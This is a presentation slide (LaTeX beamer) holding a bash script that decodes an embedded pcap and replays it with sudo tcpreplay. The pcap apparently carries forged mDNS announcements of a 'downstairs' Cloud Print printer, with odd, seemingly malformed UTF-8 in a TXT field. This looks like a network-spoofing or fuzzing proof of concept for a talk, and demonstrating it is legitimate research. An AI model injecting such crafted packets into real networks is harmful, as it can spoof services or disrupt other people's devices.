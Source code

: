 \documentclass[aspectratio=169]{beamer}
\begin{document}
\begin{frame}[fragile]
  \begin{verbatim}
#!/bin/bash

if [ $# -ne 1 ]; then
    echo "Usage:"
    echo "$0 <ethernet interface>"
    exit 1
fi

xxd -r <<EOF | sudo tcpreplay -i $1 -t -
00000000: d4c3 b2a1 0200 0400 0000 0000 0000 0000  ................
00000010: 0000 0400 0100 0000 0a25 be56 d7c1 0700  .........%.V....
00000020: 6500 0000 6500 0000 0100 5e00 00fb 5820  e...e.....^...X
00000030: b14f 2d90 0800 4500 0057 cb83 0000 ff11  .O-...E..W......
00000040: 487a c0a8 05f4 e000 00fb 14e9 14e9 0043  Hz.............C
00000050: 9a8a 0000 8400 0000 0001 0000 0000 075f  ..............._
00000060: 7072 6976 6574 045f 7463 7005 6c6f 6361  privet._tcp.loca
00000070: 6c00 000c 0001 0000 1194 0011 0ef0 9f96  l...............
00000080: a864 6f77 6e73 7461 6972 73c0 0c0b 25be  .downstairs...%.
00000090: 568d df01 0086 0100 0086 0100 0001 005e  V..............^
000000a0: 0000 fb58 20b1 4f2d 9008 0045 0001 78cd  ...X .O-...E..x.
000000b0: cb00 00ff 1145 11c0 a805 f4e0 0000 fb14  .....E..........
000000c0: e914 e901 649e 1900 0084 0000 0000 0200  ....d...........
000000d0: 0000 040e f09f 96a8 646f 776e 7374 6169  ........downstai
000000e0: 7273 075f 7072 6976 6574 045f 7463 7005  rs._privet._tcp.
000000f0: 6c6f 6361 6c00 0010 8001 0000 1194 00b0  local...........
00000100: 0974 7874 7665 7273 3d31 2955 5549 443d  .txtvers=1)UUID=
00000110: 3530 3438 3432 3536 2d34 3333 302d 3331  50484256-4330-31
00000120: 3330 2d33 3033 312d 3538 3230 6231 3466  30-3031-5820b14f
00000130: 3264 3930 1674 793d f08d a0bd f08d b6a8  2d90.ty=........
00000140: 2064 6f77 6e73 7461 6972 7325 7572 6c3d   downstairs%url=
00000150: 6874 7470 733a 2f2f 7777 772e 676f 6f67  https://www.goog
00000160: 6c65 2e63 6f6d 2f63 6c6f 7564 7072 696e  le.com/cloudprin
00000170: 740c 7479 7065 3d70 7269 6e74 6572 2769  t.type=printer'i
00000180: 643d 3632 3930 6237 3662 2d64 3036 312d  d=6290b76b-d061-
00000190: 3265 3834 2d31 3465 622d 6464 3166 3633  2e84-14eb-dd1f63
000001a0: 6330 3631 3939 0963 733d 6f6e 6c69 6e65  c06199.cs=online
000001b0: c00c 0021 8001 0000 0078 0012 0000 0000  ...!.....x......
000001c0: 0050 094e 5049 3446 3244 3930 c028 c0fb  .P.NPI4F2D90.(..
000001d0: 0001 8001 0000 0078 0004 c0a8 05f4 c0fb  .......x........
000001e0: 001c 8001 0000 0078 0010 fe80 0000 0000  .......x........
000001f0: 0000 5a20 b1ff fe4f 2d90 c00c 002f 8001  ..Z ...O-..../..
00000200: 0000 1194 0009 c00c 0005 0000 8000 40c0  ..............@.
00000210: fb00 2f80 0100 0000 7800 08c0 fb00 0440  ../.....x......@
00000220: 0000 08                                  ...
EOF
  \end{verbatim}
\end{frame}
\end{document}
